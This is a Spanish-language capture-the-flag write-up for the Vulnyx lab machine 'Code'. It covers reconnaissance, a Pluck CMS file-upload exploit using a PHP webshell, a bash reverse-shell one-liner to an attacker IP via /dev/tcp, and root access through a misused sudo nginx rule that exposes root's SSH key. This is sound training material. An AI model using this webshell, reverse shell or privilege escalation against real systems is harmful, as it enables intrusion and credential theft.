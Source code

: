 ```yaml
---
title: Vulnyx - Code
author: estx
date: 2024-04-29 12:10:00 +0800
categories: [Writeup, Vulnyx, Easy]
tags: [Linux, 'File Upload', 'Binary Abusing', 'Nginx']
math: true
mermaid: true
image:
  path: /assets/images/Vulnyx/Easy/Code/logo.png
  lqip: data:image/webp;base64,UklGRpoAAABXRUJQVlA4WAoAAAAQAAAADwAABwAAQUxQSDIAAAARL0AmbZurmr57yyIiqE8oiG0bejIYEQTgqiDA9vqnsUSI6H+oAERp2HZ65qP/VIAWAFZQOCBCAAAA8AEAnQEqEAAIAAVAfCWkAALp8sF8rgRgAP7o9FDvMCkMde9PK7euH5M1m6VWoDXf2FkP3BqV0ZYbO6NA/VFIAAAA
  alt: Hook Machine Logo
---
```


Máquina Linux de nivel **Easy** de Vulnyx.

Técnicas usadas: **File Upload, Binary Abusing**

### Fase de Reconocimiento 🧣

Como primer punto, identificamos la dirección IP de la **`Máquina Vulnyx`**

```bash
root@kali> arp-scan -I eth0 --local --ignoredups

<SNIP>
192.168.100.71	08:00:27:c6:4f:1d	PCS Systemtechnik GmbH
```

a. Enumeramos los puertos que están abiertos.

```bash
❯ nmap -p- -sS --min-rate 5000 -Pn -n 192.168.100.71 -oG ports

PORT     STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

b. Vemos las versiones de los servicios que se están ejecutando

```bash
❯ nmap -p22,80,8080 -sCV 192.168.100.71 -oN versions

PORT     STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u1 (protocol 2.0)
| ssh-hostkey: 
|   256 a9:a8:52:f3:cd:ec:0d:5b:5f:f3:af:5b:3c:db:76:b6 (ECDSA)
|_  256 73:f5:8e:44:0c:b9:0a:e0:e7:31:0c:04:ac:7e:ff:fd (ED25519)
80/tcp open  http    Apache httpd 2.4.57 ((Debian))
|_http-server-header: Apache/2.4.57 (Debian)
|_http-title: Apache2 Debian Default Page: It works
```

c. Al realizar un **fuzzing** encontramos el directorio `/pluck/`

```bash
❯ wfuzz -c -t 60 --hc=404 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt 'http://192.168.100.71/FUZZ'

=====================================================================
ID           Response   Lines    Word       Chars       Payload
=====================================================================
000011860:   301        9 L      28 W       316 Ch      "pluck"
```


* La por defecto para la autenticación es **admin**

d. En la página vemos la versión `pluck 4.7.13`, si investigamos por vulnerabilidades, encontramos [CVE-2020–29607](https://loopspell.medium.com/cve-2020-29607-remote-code-execution-via-file-upload-restriction-bypass-f5cff38d94c6). Aquí nos detallan que podemos subir una webshell con la extensión **`.phar`**

* `webshell.phar`

    ```php
    <?php
        system($_GET['cmd']);
    ?>
    ```

    ![File Upload](/assets/images/Vulnyx/Easy/Code/01-file.png)

* Ahora, ya nos podemos ejecutar comandos en la máquina víctima, con lo que nos entablaremos una reverse shell

```bash
❯ curl -s -X GET "http://192.168.100.71/pluck/files/webshell.phar?cmd=bash%20-c%20'bash%20-i%20>%26%20/dev/tcp/192.168.100.55/4444%200>%261'"
---------------------------------------------------------------
❯ nc -lvnp 4444
www-data@code:/var/www/html/pluck/files$
```

### Escalada de Privilegios 💹

1. Hacemos el tratamiento de la TTY para trabajar de manera más cómoda con la reverse shell

```bash
www-data@code:/var/www/html/pluck/files$ script /dev/null -c bash
www-data@code:/var/www/html/pluck/files$ ^Z
[1]  + 65418 suspended  nc -lvnp 4444
❯ stty raw -echo;fg
[1]  + 65418 continued  nc -lvnp 4444
                                     reset xterm

www-data@code:/var/www/html/pluck/files$ export TERM=xterm-256color
www-data@code:/var/www/html/pluck/files$ source /etc/skel/.bashrc
```


2. Vemos los permisos a nivel de sudoers de este usuario

```bash
www-data@code:/var/www/html/pluck/files$ sudo -l
User www-data may run the following commands on code:
    (dave) NOPASSWD: /usr/bin/bash
www-data@code:/var/www/html/pluck/files$ sudo -u dave /usr/bin/bash
dave@code:/var/www/html/pluck/files$
```

3. Al explorar los archivos encontramos el archivo `pass.php`

```php
dave@code:/var/www/html/pluck/data/settings$ cat pass.php 
<?php
$ww = 'c7ad44cbad762a5da0a452f9e854fdc1e0e7a52a38015f23f3eab1d80b931dd472634dfac71cd34ebc35d16ab7fb8a90c81f975113d6c7538dc69dd8de9077ec';
//$ww = '$3cUr3_p4$$w0rD';
?>
```

* Vemos los permisos a nivel de sudoers de este usuario

```bash
dave@code:/var/www/html/pluck/data/settings$ sudo -l

User dave may run the following commands on code:
    (root) NOPASSWD: /usr/sbin/nginx
```

4. Podemos listar archivos privilegiados con un archivo de configuración `nginx.conf`

```bash
user root;
events {
    worker_connections 1024;
}
http {
  server {
    listen 65001;
    location / {
      root /root;
    }
  }
}
```

> ¿Por qué podemos listar archivos del usuario `root`? Debido a que el usuario que ejecutará este servicio es **root** podemos listar archivos privilegiados, en este caso el directorio es **/root**
{: .prompt-info }


* Ahora lo que haremos es levantar el servidor y obtener la clave id_rsa del usuario root

```bash
dave@code:/tmp$ sudo -u root /usr/sbin/nginx -c /tmp/nginx.conf
dave@code:/tmp$ wget -o- http://127.0.0.1:65001/.ssh/id_rsa

-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: DES-EDE3-CBC,FF710198BD382E23

Cznk3IjefeSBWuVoxabITqCi3f0u9yq0TT5z6uQpa0OImBb/I5Iiy7yvcicbz2AS
<SNIP>
jzdYJGJl4h4XHS0rc4yZHO3T433/o73dvnd9vRliCi0Up1bRfG+YhA==
-----END RSA PRIVATE KEY-----
```


5. Si tratamos de cracker el hash de la clave id_rsa no funcionará. Si recordamos, encontramos el archivo `pass.php` que contiene la credencial **$3cUr3_p4$$w0rD**

```bash
❯ chmod 600 id_rsa
❯ ssh root@192.168.100.71 -i id_rsa
Enter passphrase for key 'id_rsa': 
root@code:~# cat /root/.                         
root@code:~# cat /root/.read_the_roooooooooooooot.txt 
9d941d3649b0fbce0ba82c6d4dcfbb0f
```